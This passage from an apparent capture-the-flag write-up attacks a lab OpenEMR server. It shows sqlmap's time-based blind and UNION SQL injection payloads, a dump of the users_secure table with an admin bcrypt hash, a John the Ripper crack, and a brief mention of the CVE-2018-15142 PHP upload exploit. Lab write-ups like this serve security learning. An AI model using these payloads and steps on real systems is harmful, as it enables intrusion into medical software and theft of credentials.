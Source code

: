 ```
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=1 AND (SELECT 5144 FROM (SELECT(SLEEP(5)))RrNB)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7171766a71,0x53474d4e7a6d6e57566c437a42576c726c62704a7267487849435667436d684d4d4d525941546858,0x717a707871),NULL-- -
---
[13:18:38] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.6
[13:18:38] [INFO] fetching tables for database: 'openemr'
Database: openemr
[13:18:38] [INFO] fetching columns for table 'users_secure' in database 'openemr'
[13:18:38] [INFO] fetching entries for table 'users_secure' in database 'openemr'
Database: openemr
Table: users_secure
[1 entry]
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| id | salt    | password                                                     | username | last_update         | salt_history1 | salt_history2 | password_history1              | password_history2 |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| 1  | <blank> | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | <blank>  | 2019-11-21 06:38:40 | <blank>       | <blank>       | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin     |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
```
### Cracking hash
From the output, we are able to obtain the username as ```openemr_admin``` and the password hash as ```$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.```. Using John the Ripper, we manage to crack the hash as xxxxxx.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=rockyou.txt password.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2021-08-23 21:11) 7.692g/s 6646p/s 6646c/s 6646C/s tristan..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

### CVE-2018-15142
Using CVE-2018-15142, we realize that we can execute arbitary PHP code from the vulnerable ```/portal/import_template``` endpoint. We will first create a POC for this vulnerable endpoint. Visitng ```/portal/payload.php```, we notice that we can see the PHP page, which shows that the exploit has succeeded.
